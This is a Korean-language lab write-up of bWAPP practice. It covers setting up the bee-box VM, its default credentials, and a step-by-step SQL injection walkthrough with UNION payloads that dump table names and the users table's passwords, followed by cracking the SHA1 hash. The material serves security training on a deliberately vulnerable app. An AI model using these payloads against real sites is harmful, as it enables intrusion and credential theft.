 ```yaml
---
title: "bWAPP(buggy web application) 해킹 실습"
category: Security
toc: true
toc_label: "이 페이지 목차"
---
```


bWAPP(buggy web application) 해킹 실습 교육을 받고, 관련 내용을 정리해 보았다.

사내 전파 교육을 위해 작성한 markdown 파일을 거의 그대로 재사용하였다. 😅

## bWAPP 설치
  * 홈페이지: http://www.itsecgames.com/
     * [bee-box 다운로드](https://sourceforge.net/projects/bwapp/files/bee-box/) (VM 이미지에 Linux/Apache/MySQL/PHP, bWAPP 포함)
     * [bWAPP 단독 다운로드](https://sourceforge.net/projects/bwapp/files/bWAPP/)
  * 관련 도서: 비박스 환경을 활용한 웹 모의해킹 완벽 실습 (한빛미디어)

## bWAPP 실행
  1. VirtualBox나 VMware Player에서 `bee-box` 이미지를 import 하여 가상 머신을 실행시키면 된다.
  1. 본 글에서는 네트워크 어댑터를 `어댑터에 브리지`로 연결시켰고, 이 때 가상 머신의 IP는 **192.168.0.106**으로 할당받았다고 가정한다.
  1. 가상 머신에 있는 웹브라우저를 실행시켜도 되지만, 편의상 호스트 브라우저에서 `192.168.0.106`으로 접속한 후, `bWAPP` 링크를 클릭하면 된다.
  1. Console 로그인 ID는 `bee`이고 최초 암호는 `bug`이다.
  1. WebUI 로그인 ID는 `bee`와 `A.I.M.`이 있고, 둘 다 최초 암호는 `bug` 이다.

## DB 확인
  1. 서버 console에서 아래와 같이 MySQL로 로그인 한다.
     ```sh
     $ mysql -u root -p
     Enter password: bug
     ```
     이제 아래와 같이 DB 테이블을 조회할 수 있다.
     ```sql
     mysql> use bWAPP
     mysql> select * from users;
     ```
  1. 기본 DB 파일은 `/var/www/bWAPP/db/bwapp.sqlite` 파일이고 SQLite brower 등으로 확인할 수 있다.

## [A1] SQL Injection (GET/Search)
  1. `'`를 입력하면 SQL syntax 에러가 나온다. (즉, SQL injection 공격이 가능함)
  1. medium level 이상이면 SQL syntax 에러가 안나온다. (즉, SQL injection 공격이 가능하지 않음)
  1. URI 정보를 확인해 보면 GET 방식임을 알 수 있다.
  1. 아래 내용으로 서치하면 DB 테이블 이름이 출력된다.
     ```sql
     a' union select 1,table_name,3,4,5,6,7 from INFORMATION_SCHEMA.TABLES where table_schema=database()#`
     ```
  1. 아래 내용으로 서치하면 users 테이블의 항목이 출력된다.
     ```sql
     a' union select 1,column_name,3,4,5,6,7 from INFORMATION_SCHEMA.columns where table_name='users' and table_schema=database()#
     ```
  1. 아래 내용으로 서치하면 사용자 id/login/`password`/email 정보가 출력된다.
     ```sql
     a' union select 1,id,login,password,email,6,7 from users#`
     ```
  1. 얻은 password hash 값인 "6885858486f31043e5839c735d99457f045affd0"를 구글 검색으로 찾아보면, "bug"의 SHA1 값이라는 것을 알 수 있다. 또는 [HASH cracker](https://crackstation.net/) 등의 사이트를 이용할 수도 있다.
